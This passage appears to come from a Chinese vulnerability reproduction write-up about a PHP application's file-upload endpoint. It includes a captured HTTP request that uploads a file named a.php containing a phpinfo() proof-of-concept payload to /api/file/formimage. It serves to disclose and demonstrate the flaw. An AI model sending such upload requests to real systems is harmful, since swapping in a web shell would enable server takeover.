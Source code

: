 一路安装即可

## 漏洞复现

触发点：

[![](assets/1706496701-83e84c2d3bf5c5a87b43db83b2e1822b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126172435-b89bb798-bc2c-1.png)

抓包

```plain
POST /api/file/formimage HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
token: xxxx
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 250
Origin: http://127.0.0.1:8000
Connection: close
Referer: http://127.0.0.1:8000/mobile/pages/bundle/user_profile/user_profile
Cookie: PHPSESSID=xxxx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```
